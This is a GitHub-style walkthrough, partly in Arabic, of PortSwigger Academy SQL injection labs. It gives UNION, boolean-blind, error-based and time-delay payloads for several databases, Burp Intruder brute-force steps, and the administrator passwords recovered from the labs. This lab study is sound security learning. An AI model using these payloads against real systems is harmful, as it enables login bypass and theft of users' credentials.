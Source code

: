 # Sqli 

<details>
  <summary>Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data</summary>

> ### This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

---
 
* ```url
  /filter?category=Pets
  ```
  * ```url
    /filter?category=Pets' or 1=1 --
    ```

  
</details>







<details>
  <summary>Lab: SQL injection vulnerability allowing login bypass</summary>

> ###  This lab contains a SQL injection vulnerability in the login function.
* > To solve the lab, perform a SQL injection attack that logs in to the application as the ``administrator`` user.

---


```url
csrf=Wf2ku02yY3tefRdA4rFJfn8d1Z48oOeq&username=user&password=pass
```
put username = ``administrator" --`` and write any passowrd it will be ignored anyway and if ``'`` not work try ``"``

```url
csrf=Wf2ku02yY3tefRdA4rFJfn8d1Z48oOeq&username=administrator' --&password=pass
```

  
</details>




<details>
  <summary>Lab: SQL injection attack, querying the database type and version on Oracle ⚠️</summary>

> ###  This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.
* > To solve the lab, display the database version string. 

* <details>
     <summary>Hint</summary>

  On Oracle databases, every ``SELECT`` statement must specify a table to select ``FROM``. If your ``UNION SELECT`` attack does not query from a table, you will still need to include the FROM keyword followed by a valid table name.
  
  There is a built-in table on Oracle called ``dual`` which you can use for this purpose. For example: ``UNION SELECT 'abc' FROM dual``   

  </details>


⚠️⚠️
<details>
  <summary>aobut union injection</summary>

✅ أولاً: "تتأكد إن أنواع البيانات في الأعمدة المتحده (unioned) متوافقة" يعني إيه؟
لما تستخدم ``UNION``، انت بتدمج نتيجتين مع بعض، فلازم الأعمدة اللي في الاستعلام الأول والتاني يكونوا نفس العدد ونفس نوع البيانات.

مثال توضيحي:
لو الاستعلام الأصلي بيرجع:

```sql
id (رقم), name (نص), email (نص)
```

فأنت لازم تكتب: 

```sql
UNION SELECT 1, 'admin', 'admin@example.com'
```
  
</details>
⚠️⚠️

----


```
/filter?category=Gifts
```
first check number of coulmns :

* ```url
  /filter?category=Gifts'union select null FROM dual--
  ```

* ```url
  /filter?category=Gifts'union select null,null FROM dual--
  ```

for check type of coulmns :

* ```url
  /filter?category=Gifts'union select 'a','a' FROM dual--
  ```

now try to know database version :

* **``Oracle :``**
   * ``SELECT banner FROM v$version``
   * ``SELECT version FROM``
   * ``v$instance``

* **``Microsoft :``**
   * ``SELECT @@version`` 

* **``PostgreSQL :``**
   * ``SELECT version()``

* **``MySQL :``**
   * ``SELECT @@version`` 



* ```url
  /filter?category=Gifts'union SELECT banner,NULL FROM v$version--
  ```



  
</details>








<details>
  <summary>Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft</summary>


> ###  This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.
> To solve the lab, display the database version string. 


---

```url
' UNION SELECT 'abc','def'#
```

* ```
  ' UNION+SELECT @@version, NULL#
  ```

  
</details>






<details>
  <summary>Lab: SQL injection attack, listing the database contents on non-Oracle databases ⚠️</summary>

> ###  This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.
> ### The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.
> To solve the lab, log in as the ``administrator`` user. 


---

```
/filter?category=Gifts' union select NULL,NULL--
```

* <details>
     <summary>⚠️list tables in database⚠️</summary>




  
  ## 🔍 1. Determine the Number of Columns
  
  ```sql
  ' ORDER BY 1--
  ' ORDER BY 2--
  ...
  ' ORDER BY N--
  ```
  
  أوقف عند أول رقم يعطيك خطأ → عدد الأعمدة هو الرقم السابق.
  
  أو باستخدام `UNION SELECT NULL`:
  
  ```sql
  ' UNION SELECT NULL--
  ' UNION SELECT NULL,NULL--
  ' UNION SELECT NULL,NULL,NULL--
  ```
  
  حتى لا يظهر خطأ.
  
  ---
  
  ## 🧠 2. Find Reflectable Columns (أي عمود يظهر على الصفحة)
  
  ```sql
  ' UNION SELECT 'a', NULL--
  ' UNION SELECT NULL, 'a'--
  ```
  
  غيّر مكان `'a'` لترى أين يظهر على الصفحة.
  
  ---
  
  
  
  ## 📋 4. List Tables in the Database
  
  ### 🐬 MySQL
  
  ```sql
  ' UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema=database()--
  ```
  
  ### 🐘 PostgreSQL
  
  ```sql
  ' UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema='public'--
  ```
  
  ### 🪟 MSSQL
  
  ```sql
  ' UNION SELECT table_name, NULL FROM information_schema.tables--
  -- OR --
  ' UNION SELECT name, NULL FROM sys.tables--
  ```
  
  ### 🟠 Oracle
  
  ```sql
  ' UNION SELECT table_name, NULL FROM all_tables--
  ```
  
  ---
  
  ## 📑 5. List Columns in a Table
  
  ### 🐬 MySQL
  
  ```sql
  ' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users'--
  ```
  
  ### 🐘 PostgreSQL
  
  ```sql
  ' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users'--
  ```
  
  ### 🪟 MSSQL
  
  ```sql
  ' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users'--
  ```
  
  ---
  
  ## 🧪 Example (MySQL)
  
  - Suppose we know the number of columns is 2, and the first column reflects to the page:
  
  ```sql
  ' UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema=database()--
  ```
  

  
 

     
   </details>


* ```sql
  ' UNION SELECT table_name,+NULL FROM information_schema.tables--
  ' union select table_name,null from all_tables --
  ```

![image](https://github.com/user-attachments/assets/5dca3238-d8de-478c-9975-a5e940982015)

```
users_qtmswl
```

found tables 

* ```sql
  ' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users_qtmswl'--
  ' union select column_name,null from all_tab_columns where table_name='USERS_KWPGKQ'--
  ```

found colums:

```
username_xwttla
email
password_ztcwwk
```

* ```sql
  ' UNION+SELECT username_xwttla, password_ztcwwk FROM users_qtmswl--
  ```

![image](https://github.com/user-attachments/assets/c759f3d6-5a1b-4884-885e-9b4ac82fa789)

```
administrator : 3cwvdutv09z9slmekkwm
```
  
</details>






<details>
  <summary>Lab: SQL injection attack, listing the database contents on Oracle</summary>


> ###  This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.
> ### The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.
> To solve the lab, log in as the administrator user. 

---


```
'+UNION+SELECT+'abc','def'+FROM+dual--
```

```sql
'+UNION+SELECT+table_name,NULL+FROM+all_tables--
```

* ```
  USERS_PURPGR
  ```

```
'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_PURPGR'--
```

* ```
  PASSWORD_BGNVEO
  USERNAME_WWJQEC
  ```

```
'+UNION+SELECT+USERNAME_WWJQEC,+ PASSWORD_BGNVEO+FROM+USERS_PURPGR--
```

* ```
  administrator
	io37vj2yyj6q36piu2uo
  carlos
	gthqs6kajajbsnpy9xc1
  wiener
	46bp8uni00wnytsv0yob
  ```



  
</details>







<details>
   <summary>Lab: SQL injection UNION attack, determining the number of columns returned by the query</summary>

> ###  This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. The first step of such an attack is to determine the number of columns that are being returned by the query. You will then use this technique in subsequent labs to construct the full attack.
> To solve the lab, determine the number of columns returned by the query by performing a SQL injection UNION attack that returns an additional row containing null values. 


---

```SQL
/filter?category=Pets' union select NULL --
```

```SQL
/filter?category=Pets' union select NULL,NULL --
```

```SQL
/filter?category=Pets' union select NULL,NULL,NULL --
```





</details>







<details>
	<summary>Lab: SQL injection UNION attack, finding a column containing text</summary>

> ###  This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you first need to determine the number of columns returned by the query. You can do this using a technique you learned in a previous lab. The next step is to identify a column that is compatible with string data.

> The lab will provide a random value that you need to make appear within the query results. To solve the lab, perform a SQL injection UNION attack that returns an additional row containing the value provided. This technique helps you determine which columns are compatible with string data. 


---

```url
/filter?category=Gifts' union select 'a',NULL,NULL --
```

```url
/filter?category=Gifts' union select NULL,'a',NULL --    <== correct one
```

```url
/filter?category=Gifts' union select NULL,NULL,'a' --
```
 
</details>










<details>
	<summary>Lab: SQL injection UNION attack, retrieving data from other tables</summary>


> ###  This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.

> #### The database contains a different table called ``users``, with columns called ``username`` and ``password``.

> To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the ``administrator`` user. 

---


```url
/filter?category=Pets' union select null,null--
```


```url
/filter?category=Pets' union select username,password from users --
```

* ```
  wiener
	n94f86gz294x7zoonr1z
  administrator
	necgrjfgn42l9sxu160v
  carlos
	sunapc1n4575hvqzdaa1
  ```







 
</details>














<details>
	<summary>Lab: SQL injection UNION attack, retrieving multiple values in a single column</summary>


> ###  This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

> #### The database contains a different table called ``users``, with columns called ``username`` and ``password``.

> To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the ``administrator`` user.


---

do concatenate to values in one column 

```url
/filter?category=Gifts' union select null,username ||' ==> '|| password from users --
```

![image](https://github.com/user-attachments/assets/3e6dd0bf-cb7c-4d21-92e5-14177f69629e)


* ```
  administrator ==> qicuka8mgvvmtdzjsk76
  wiener ==> y48w02o728mfhp76c9u3
  carlos ==> n4k3vrh25quekpp6ieje
  ```

 
</details>





---


<details>
	<summary>Lab: Blind SQL injection with conditional responses (boolan)</summary>

> ###  This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

> #### The results of the SQL query are not returned, and no error messages are displayed. But the application includes a ``Welcome back`` message in the page if the query returns any rows.The database contains a different table called ``users``, with columns called ``username`` and ``password``. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

> To solve the lab, log in as the ``administrator`` user. 



---


```http
GET / HTTP/1.1

Host: 0ab3003c04435bb280113582003400f4.web-security-academy.net
Cookie: TrackingId=sBgKk2u4kNA0mWuX; session=vLPAZFMJ5ApvFggeT85YmjbwpttZwrj8
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://portswigger.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive


```

Notice :

```http
TrackingId=sBgKk2u4kNA0mWuX;
```

First to check if it vuln or not 

```
TrackingId=sBgKk2u4kNA0mWuX' and 1=1 --;
```
notice ``Welcome Back`` appear in page

![image](https://github.com/user-attachments/assets/738470a1-011a-4fa1-bd7e-c8a655248a27)

now make sure that there is user call ``adminstrator`` by using subquery check :

```sql
' and (SELECT  'a' FROM users WHERE username='administrator')='a' --
```

if user exist

* ```sql
  ' and 'a' = 'a' --  == True
  ```

Now start Exploiting

```
' and (SELECT  'a' FROM users WHERE username='administrator' AND LENGTH(password)=1 )='a' --
```
send request to intruder and put numbers instead of 1 until 30 for example and grep&match ``Welcome back!``see when it change the response here it is ``20``

![image](https://github.com/user-attachments/assets/29e4e810-5dbe-47e1-9e7e-31e3fefdb857)


```http
[1]  [2]  [3]  [4]  [5]  [6]  [7]  [8]  [9]  [10]  [11]  [12]  [13]  [14]  [15]  [16]  [17]  [18]  [19] [20]
```

```sql
' and (SELECT  SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a' --
                                 [1]                                              [2]
```

> first ``1`` refer to first char from passowrd second ``1`` refer to this query will retrun one char 

IN INTRUDER MAKE ATTACK TYPE FROM sniper TO cluster bomb TO MULTIPLE PAYLOAD { [1],[2] } NOW IN FIRST PAYLOAD [1] MAKE IT TRY 
      FROM 1 TO 20 AND IN SECOND PAYLOAD [2] TRY FORM [a-z+0-9] AND IN SETTINGS OF INRUDER MAKE GREP-MATCH WITH YOUR VALUE 
      IN THIS EXAMPLE IS " Welcome Back! " NOW IT WILL BRUTE FORCE AND YOU WILL GIT THE PASSWORD

```
[1]  [2]  [3]  [4]  [5]  [6]  [7]  [8]  [9]  [10]  [11]  [12]  [13]  [14]  [15]  [16]  [17]  [18]  [19] [20]
 p    m    i    w    y    x    x    o    a    o     z     p     b     1     x     o     c     m     q    j
```

```
pmiwyxxoaozpb1xocmqj
```
 
</details>







<details>
	<summary>Lab: Blind SQL injection with conditional errors</summary>

> ###  This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.
> #### The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.The database contains a different table called ``users``, with columns called ``username`` and ``password``. You need to exploit the blind SQL injection vulnerability to find out the password of the ``administrator`` user.

> To solve the lab, log in as the ``administrator`` user. 

---

to check --- internal server error---  add ``'``

```url
TrackingId=Gpf75xlv9ccLL8ZV'
```

now it injectable to what kind?? 

```url
0iLsW0UwGLuOfA5J' and 1=1 --    no error
0iLsW0UwGLuOfA5J' and 1=0 --    no error        
```

there is no error so it is not boolan blind injunction

now to detrmine it error based:

```url
TrackingId=Gpf75xlv9ccLL8ZV''  no error
```
no error appear that is mean we can do subqery inside ``' '``

to make sure that there is user called ``administrator``

```url
TrackingId=Gpf75xlv9ccLL8ZV' || (SELECT '' FROM users WHERE username='administrator') || '--
```

no error so there is user call ``administrator`` but wait if you try to but wrong user for example 

```url
TrackingId=Gpf75xlv9ccLL8ZV' || (select '' from users where username='plaplapla') || '--
```

no error also ⚠️⚠️

so how to make sure if really there is user call ``administrator`` :

```url
0iLsW0UwGLuOfA5J' || (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE NULL END FROM dual) ||'--    error  appear because 1/0
0iLsW0UwGLuOfA5J' || (SELECT CASE WHEN (1=0) THEN TO_CHAR(1/0) ELSE NULL END FROM dual) ||'--    no error 
```

now try to know if there is user call ``administrator`` with same way 

```url
TrackingId=Gpf75xlv9ccLL8ZV' || (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE NULL END FROM users where username='administrator') ||'--
```

here he check **first** if there is user call ``administrator`` if there is will excute ``SELECT CASE`` statement and there will be error 

but if there is no user called ``administrator`` the ``SELECT CASE`` will not excuted and no error will appear 

now if we try fake suer ``plaplapla``

```url
TrackingId=Gpf75xlv9ccLL8ZV' || (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE NULL END FROM users where username='plaplapla') ||'--
```
no error appear so user not exist

now we want to konw length of passowrd:

```url
TrackingId=Gpf75xlv9ccLL8ZV' || (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE NULL END FROM users where username='administrator' and LENGTH(password)=1) ||'--
```
send to intruder and select ``1`` and put value form ``1 to 30`` and when error appear that will be the length

![image](https://github.com/user-attachments/assets/400863d8-0caa-451c-bfcb-5ef297434b01)

so passowrd length is **``20``**

now brute force it :

```url
TrackingId=Gpf75xlv9ccLL8ZV' || (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE NULL END FROM users where username='administrator' and substr(password,1,1)='a')||'--
```



```
[1]  [2]  [3]  [4]  [5]  [6]  [7]  [8]  [9]  [10]  [11]  [12]  [13]  [14]  [15]  [16]  [17]  [18]  [19] [20]
 y    0    x    9    p    0    p    2    c    i     2     q     1     i     u     n     d     r     x    q
```

```
y0x9p0p2ci2q1iundrxq
```


 
</details>









<details>
	<summary>Lab: Visible error-based SQL injection  (visible errors)</summary>


> ###  This lab contains a SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. The results of the SQL query are not returned.

> #### The database contains a different table called ``users``, with columns called ``username`` and ``password``. To solve the lab, find a way to leak the password for the ``administrator`` user, then log in to their account.

---


```url 
XGb1lTKF70BvkHkM'                 error appear
XGb1lTKF70BvkHkM'--               error disappear      so it is vulnerable 
```

```url
TrackingId=E4OUmE1Kd6YYqUU2' and CAST((SELECT 1) AS int)--
TrackingId=E4OUmE1Kd6YYqUU2' and 1 ==> (int) not (boolean)
```

![image](https://github.com/user-attachments/assets/c4fa4f22-4984-4cc3-a7de-6b41cd188579)


```url
TrackingId=E4OUmE1Kd6YYqUU2' and 1=CAST((SELECT 1) AS int)--   no errors
TrackingId=E4OUmE1Kd6YYqUU2' and 1=1
TrackingId=E4OUmE1Kd6YYqUU2' and True
```

now exploit

```
TrackingId=E4OUmE1Kd6YYqUU2' and 1=CAST((SELECT username FROM users) AS int)--
```

![image](https://github.com/user-attachments/assets/28b17321-de6a-417c-959c-31579dac836b)


> error because the request is too long so we clear tracking id

```
TrackingId=' and 1=CAST((SELECT username FROM users) AS int)--
```

![image](https://github.com/user-attachments/assets/d12ac037-ac94-4a24-a532-b88dd0cf9c4c)

now try to appear first row as error but has name of first user

```
' and 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
```

![image](https://github.com/user-attachments/assets/e1006871-fea9-49c0-a530-bcd979c739ad)

it work so first user is ``administrator``

now appear first password as error

```
' and 1=CAST((SELECT password FROM users LIMIT 1) AS int)-- 
```

![image](https://github.com/user-attachments/assets/ddcdd86d-847b-47cc-b3aa-b7b767588680)

```
administrator : cuqjexnaphj1h9gz3b6y
```


 
</details>











<details>
	<summary>Lab: Blind SQL injection with time delays</summary>

> ###  This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

> The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

> To solve the lab, exploit the SQL injection vulnerability to cause a 10 second delay. 

---

```url
TrackingId=1Pe7nqjCl5ZZt9q7' ||(SELECT pg_sleep(10))--'
```


 
</details>





























































## [Portsqigger cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)



































